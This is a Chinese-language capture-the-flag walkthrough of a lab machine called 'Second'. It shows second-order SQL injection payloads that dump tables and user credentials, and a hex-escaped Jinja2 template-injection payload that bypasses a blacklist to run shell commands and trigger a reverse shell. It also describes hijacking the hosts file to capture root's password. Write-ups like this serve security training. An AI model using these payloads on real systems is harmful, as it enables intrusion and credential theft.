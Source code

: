 # Second

排名第二并不是一件坏事，但在这种情况下并非如此。

---

## 端口扫描

循例nmap

![在这里插入图片描述](https://img-blog.csdnimg.cn/eff3c3c0ebb3495180de8f7bf563a597.png)

## Web枚举

进到8000

![在这里插入图片描述](https://img-blog.csdnimg.cn/20e837381d3a456abd7a050de82a6d03.png)

注册个账号进去，没啥用

### 二次注入

虽然登录框那里没有sql注入，但是可以尝试注册个非法账户名尝试二次注入

![在这里插入图片描述](https://img-blog.csdnimg.cn/ffdeaa56255b49dd8c65f6c5ac943a96.png)

登录进去之后使用单词计数器

![在这里插入图片描述](https://img-blog.csdnimg.cn/ecfae8f6adc14a8c8bfc96f5eb08ad47.png)

说明sql语句被执行了

直接利用，注册，这里爆出来回显点是2

	' union select 1,2,3,4#-- -

![在这里插入图片描述](https://img-blog.csdnimg.cn/c26881b3ad6c4b1b9f8a857234a24bbb.png)

接下来就是通过information_schema爆表爆字段

	' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='website'#-- -
	' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#-- -
	' union select 1,group_concat(username,'||',password),3,4 from users#-- -

获得smokey的凭据

![在这里插入图片描述](https://img-blog.csdnimg.cn/afbd79150afe44f7af1b699fe2d376d7.png)

它可以登ssh

## 横向移动

在/opt/app下有一个flask

![在这里插入图片描述](https://img-blog.csdnimg.cn/04e2f80381e34b6dba428136b6081dc9.png)

查看app.py看到服务开在5000端口，先转发出来

![在这里插入图片描述](https://img-blog.csdnimg.cn/ae3e6d45d47b42ecad1b8d9acd51b6e6.png)

也是一样的登录框

查看源码发现它是直接把username插入页面，这意味着可以尝试SSTI

![在这里插入图片描述](https://img-blog.csdnimg.cn/dd50530dc6a54b21a7289a6039a333f1.png)

注册一个{{1+1}}的用户名，登录得到了结果

![在这里插入图片描述](https://img-blog.csdnimg.cn/001b43d03aac4e779b6886bf3c415283.png)

虽然它有黑名单，但我们可以通过十六进制字符轻松绕过

![在这里插入图片描述](https://img-blog.csdnimg.cn/5bc03635f9214c0d81ed76079a21cb8e.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/7142686d4a1e4559a3b802dc5899b71a.png)

payload:

	{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

![在这里插入图片描述](https://img-blog.csdnimg.cn/7125732ced884e23b756955bc8f2cbc0.png)

没问题，直接reverse shell

![在这里插入图片描述](https://img-blog.csdnimg.cn/01a18df2c6944762b3bf160e45a49ca3.png)

	{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('/tmp/cmd')|attr('read')()}}

![在这里插入图片描述](https://img-blog.csdnimg.cn/1ec646bbfa8e41699e0911c076d95dd1.png)

成功过来，同时拿到user flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/d46b5d881a5c4af18b63327ccc98c85e.png)

## 权限提升

note.txt

	请尽快完成第二个项目现场。 确保 WAF 确实阻止了所有攻击，并且您使用正确的渲染模板来避免 SSTI。 你真的应该让你的网站像我的字计数器一样安全。
	
	另外，我需要你在那个 PHP 站点上打气，我将登录以检查你的进度。

在/var/www下有个dev_site

![在这里插入图片描述](https://img-blog.csdnimg.cn/d6f1bbb95f8e49f48805364f2e6b88aa.png)

传个pspy过去，发现有个定时任务

![在这里插入图片描述](https://img-blog.csdnimg.cn/dbddf9c87ba94a17bcff41eb0ebd6416.png)

联系上面的note，那么smokey会定时带着凭据登录过去，但dev_site我们并没有权限修改

hosts有acl

![在这里插入图片描述](https://img-blog.csdnimg.cn/29bc8ae3344546ceb0ef629e0ec4a456.png)

查看acl发现hazel有写入权限

![在这里插入图片描述](https://img-blog.csdnimg.cn/10b55a9cc6484a62a12cbaa9d57cd306.png)

hosts里有那个域名，那么如果脚本通过域名请求，那么我们将可以直接修改hosts指向我们的攻击机

![在这里插入图片描述](https://img-blog.csdnimg.cn/2f9187ba11d44fd791b7ed789f80fab7.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/2f03144551324bb092ecebc2102eade9.png)

覆盖过去

![在这里插入图片描述](https://img-blog.csdnimg.cn/8aae7e6799e243faad7fe44efeac5c1d.png)

内网还有一个8080端口，那个应该就是dev_site的了

本地端口转发直接转过来

![在这里插入图片描述](https://img-blog.csdnimg.cn/8d3db114a54647268ad2adf20999f212.png)

wireshark抓包，得到凭据

![在这里插入图片描述](https://img-blog.csdnimg.cn/30a4edbdc149414abc0564ca3006b813.png)

这是root的密码，直接su过去

![在这里插入图片描述](https://img-blog.csdnimg.cn/d7a544ef3019489f8bd6297f9433669e.png)

getroot
